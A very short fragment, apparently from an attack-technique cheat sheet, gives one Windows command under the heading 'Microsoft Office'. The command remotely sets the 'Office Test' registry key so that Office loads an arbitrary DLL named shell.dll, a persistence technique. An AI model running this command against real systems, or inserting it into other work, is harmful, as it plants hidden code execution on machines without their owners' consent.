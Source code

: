 # Microsoft Office

`C:\> reg add "[\\<IP>\]HKCU\SOFTWARE\Microsoft\Office Test\Special\Perf" /t REG_SZ /d "C:\path\to\shell.dll" /f`